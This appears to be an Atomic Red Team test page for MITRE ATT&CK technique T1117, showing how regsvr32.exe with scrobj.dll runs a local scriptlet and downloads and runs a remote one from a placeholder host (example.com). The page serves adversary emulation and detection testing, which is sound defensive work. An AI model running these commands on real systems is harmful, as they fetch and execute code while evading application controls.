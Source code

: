 # Regsvr32

## MITRE ATT&CK Technique:
[T1117](https://attack.mitre.org/wiki/Technique/T1117)

## Local Scriptlet Execution:

    regsvr32.exe /s /u /i:file.sct scrobj.dll

## Remote Scriptlet Exection:

    regsvr32.exe /s /u /i:http://example.com/file.sct scrobj.dll

## Test Script

[regsvr32.sct](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/RegSvr32.sct)
